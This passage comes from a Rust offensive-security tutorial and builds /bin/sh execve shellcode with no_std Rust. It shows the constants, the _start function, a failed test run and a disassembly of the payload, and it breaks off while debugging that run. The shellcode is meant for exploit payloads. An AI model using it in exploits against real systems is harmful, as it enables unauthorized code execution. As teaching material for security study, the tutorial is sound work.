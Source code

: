 
First, the boilerplate:
**[ch_08/shell/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/shell/src/main.rs)**
```rust
#![no_std]
#![no_main]

use core::arch::asm;

#[panic_handler]
fn panic(_: &core::panic::PanicInfo) -> ! {
    loop {}
}
```

Then, the constants:
```rust
const SYS_EXECVE: usize = 59;
const SHELL: &str = "/bin/sh\x00";
const ARGV: [*const &str; 2] = [&SHELL, core::ptr::null()];
const NULL_ENV: usize = 0;
```

Our (unique) syscall function:
```rust
unsafe fn syscall3(syscall: usize, arg1: usize, arg2: usize, arg3: usize) -> usize {
    // ... same as above
}
```

And finally, the start function to wrap everything:
```rust
#[no_mangle]
fn _start() {
    unsafe {
        syscall3(SYS_EXECVE, SHELL.as_ptr() as usize, ARGV.as_ptr() as usize, NULL_ENV);
    };
}
```

Pretty straightforward, isn't it? Aaaand...

```bash
$ make run_shell
Illegal instruction (core dumped)
make: *** [Makefile:3: execute] Error 132
```

It doesn't work...


Let's investigate.

First, we disassemble the shellcode:
```bash
$  make dump_shell
# ...
Disassembly of section .data:

00000000 <.data>:
   0:   48 8d 3d 0f 00 00 00    lea    rdi,[rip+0xf]        # 0x16
   7:   48 8d 35 22 00 00 00    lea    rsi,[rip+0x22]        # 0x30
   e:   6a 3b                   push   0x3b
  10:   58                      pop    rax
  11:   31 d2                   xor    edx,edx
  13:   0f 05                   syscall
  15:   c3                      ret
  16:   2f                      (bad)          # "/bin/sh\x00"
  17:   62                      (bad)
```